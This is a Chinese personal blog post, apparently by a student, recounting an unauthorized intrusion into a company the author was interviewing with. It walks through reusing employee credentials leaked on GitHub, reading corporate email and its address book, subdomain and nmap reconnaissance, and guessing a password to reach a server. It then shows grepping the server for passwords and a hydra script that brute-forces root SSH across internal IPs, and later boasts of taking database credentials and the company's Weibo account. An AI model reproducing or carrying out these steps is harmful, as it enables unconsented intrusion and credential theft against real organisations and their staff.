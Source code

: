 ```yaml
---
layout: post
title: 实习之登堂入室
categories: HowTo
tags: 学习笔记 小手段 
---
```


# 但行好事，莫问前程
> 解决方案

* <font color="red"> 删除Github上的敏感配置信息(包括但不限于微信Appkey,secert,Email账号，mlab上的DB配置，产品AppKey,Secert, ELK服务器账号密码等信息且不只是一个配置文件中出现)或着撤下Github上所有的公司产品代码 </font>
* <font color="red">更改邮箱密码为复杂密码(但不止包括邮箱，其他可被搜索并和公司相关联的其他平台账号)，更改服务器为无规律密码(而非公司名加服务器功能加ip前几位构成)，</font>
* <font color="red">更新数据库中已经暴露的数据。</font>
* <font color="red">加强服务器配置，例如防SSH爆破，适当清理bash的history，设置白名单访问等</font>
* <font color="red"> 重要信息不可放置到外网上。</font>


#### 这是一次找实习之余，偶然接到这家公司的面试。出于对目标公司的好奇。当然只是作为对所中意公司的了解(之前是一点也不了解)，进行了小小的测试。目前所有已测试数据均已删除。不过经过此次测试发现越来越喜欢这家公司了。


1.故事的开始。

去官网看了一下，发现没有什么实质性的内容，而且不给注册。。好坑，不开心。而且只能从微信体验公司宣传的功能。于是抓包，看到API，猜了几次。觉得十分有趣。后来就去搜索引擎 `site:target.com` 不出意外发现了其他的相关域名。而且测试版的网站竟然还没下线(允许注册登录)。在这个网站注册了账号，尝试了一下基本功能，算是有了初步的了解。不过发现一个很不好的地方，就是API的设计，基本上全是用的GET，从后台取数据的时候，URL上一大串参数。而根据REST设计风格来看，其实这几个功能都应该是通过POST的方式，并且将请求的数据放到Body里比较好。 

2.Github上的数据泄露

一边从搜索引擎得到网站一些信息，然后去github尝试了一下，看看有没有人上传过代码。不尝试不知道，发现信息泄露十分严重。数个员工均在github上公开了代码。其中配置文件包括服务器，企业邮箱，db，ELK信息等。
拿出旁注工具，旁注得到域名
![旁注得到域名](../image/hackit/pangzhu_1.jpg)

同时登录企业邮箱，邮箱中并无重要信息。但是Get到了部分通讯录。有了通讯录就方便了很多。通讯录是Json格式的，看起来很费事，所以转成csv好点。

```shell
awk '{key = $1; $1 = ""; a[key] = a[key] $0} END { for (key in a) print key, a[key] }' <<< cat tt.txt  >tempfile		   #直接合并数据
sed -n '2,6p' tempfile			#取第姓名行到第邮箱行
sed '2,3d' tempfile				#删除姓名到邮箱中的多余的二行。
cat tempfile | sed 's/,/\n/g'	#以逗号进行的行列转置，但是转置之后全部变成一列了
paste name.txt mail.txt  | awk '{printf "%s %s %s \n", $1 ,",",$2 }' > ConnectInfo.csv 					#两个不同的文件合并成两列到一个文件				  #
```

其实还可以用csvkit，csvkit的话一行命令就行了就`json2csv xx.json xx.csv`可以转成csv格式了。

而另一边旁注得到的信息需要进行一下整理，看看是不是有多个站点共同使用一个IP上的。不同工具不同字典大小，可以得到不同的结果。
> 使用
`awk '{key = $1; $1 = ""; a[key] = a[key] $0} END { for (key in a) print key, a[key] }' <<< cat IpInfo.txt`

得到整理好的数据，可以看到有三个ip上同时每个上面部署了两个站点。当然后来换了个字典，发现其实不止这么多二级域名，一共有16个的样子吧。
![整理数据](../image/hackit/pangzhu_2.jpg)

这边得到了iplist就应该开始进行扫描了。使用 `nmap -A -Pn -iL IPlist.txt > IPScanresult.txt` 同时还有一个进行URL的扫描。当然这个时候我还在搜索信息。发现其使用一个XX部落，通过密码猜测进入。然后发现一个十分重要的东西。就是内网映射服务器的账号密码在那记载着呢。

![进来了](../image/hackit/RUKOUVPS.png)
进来之后发现其实还部署着docker，nginx，ELK等服务，但是这台服务器的性能上是真一般，而且网速超级慢。

3.服务器之上
> 进了服务器，开始看一下路由表映射，然后查看历史记录，在整个目录下递归搜索含有'pwd','password','xxx'的文件。查看历史记录发现`grep -rnw /home/ -e 'pwd'`



```shell
iplist="10.10.241.52
10.10.177.183
10.10.241.52
10.10.177.183
10.10.255.95
10.10.239.183
172.17.0.2
10.10.255.1
172.17.0.2
10.10.255.1
10.10.220.103
10.10.255.92
10.10.200.143
10.10.166.86
10.10.255.93
10.10.84.141
10.10.200.122
10.10.0.1
10.10.255.90
10.10.200.4
10.10.255.2
10.10.255.200
10.10.255.250
10.10.232.79"
 
echo "===Begin TEST==="
for ip in $iplist;
do
          hydra $ip -s 50001 ssh -l root -P passlist.txt
done
```

OVER_by_2016_11_12

现在是第二天早上11点(周日)：刚写完邮件通知对方。

ps:其他过程不想写了，昨天搞到将近两点，本来还打算看看面试题呢。不过也没什么可看的。哎，通知了对方。有的人说不要，有的人说要。还是，但行好事，莫问前程。希望ok。

![通知对方](../image/hackit/attention.jpg)

ps2:前几天和堂姐聊天，说要辞实习，重新找一份。姐说：年轻人就是好。是啊，年轻，棱角未平，阳光正好。现在我又佩服我的老姐了，能拿下全马，佩服你。


update:14号上午，还是不想看面试题。昨天发邮件通知之后，也没人回复个谢谢。邮箱密码虽然改了，但服务器还是没有修改。这次又测到4个DB服务器的账号密码。

![DBMSG](../image/hackit/msg1.jpg)

问了下HR面试我的面试官名字，找到之后，微博,github,知乎。发现我们两个的学习路线差不多。不知道今天下午的面试会怎么样？OK,嘿嘿。
update:14号上午11:00，好吧官方微博账号到手。

![weibohh](../image/hackit/weibo.png)
